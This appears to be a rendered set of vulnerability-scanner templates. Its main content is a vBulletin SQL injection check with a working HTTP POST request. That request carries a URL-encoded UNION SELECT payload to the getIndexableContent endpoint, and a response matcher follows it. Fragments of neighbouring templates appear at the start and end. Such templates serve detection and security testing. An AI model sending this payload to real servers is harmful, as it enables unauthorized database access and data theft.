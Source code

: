 - part - header
- words
  1. add-category.php

**Type - status**

- status
  1. 302

---

# vBulletin SQL Injection

## Description

- vBulletin before 5.5.6pl1, 5.6.0 before 5.6.0pl1, and 5.6.1 before 5.6.1pl1 has incorrect access control that permits SQL injection attacks.
- severity - critical
- tags - cve2020,vbulletin,sqli,packetstorm,cve

## Requests

### Step - 1

```
POST /ajax/api/content_infraction/getIndexableContent HTTP/1.1
Host: {{Hostname}}
X-Requested-With: XMLHttpRequest
Accept: */*
Content-Type: application/x-www-form-urlencoded

nodeId%5Bnodeid%5D=1%20union%20select%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2C15%2C16%2C17%2CCONCAT%28%27vbulletin%27%2C%27rce%27%2C%40%40version%29%2C19%2C20%2C21%2C22%2C23%2C24%2C25%2C26%2C27--+-

```

### Matchers

**Type - word**

- words
  1. vbulletinrce

---

# CSE Bookstore 1.0 - SQL Injection

## Description
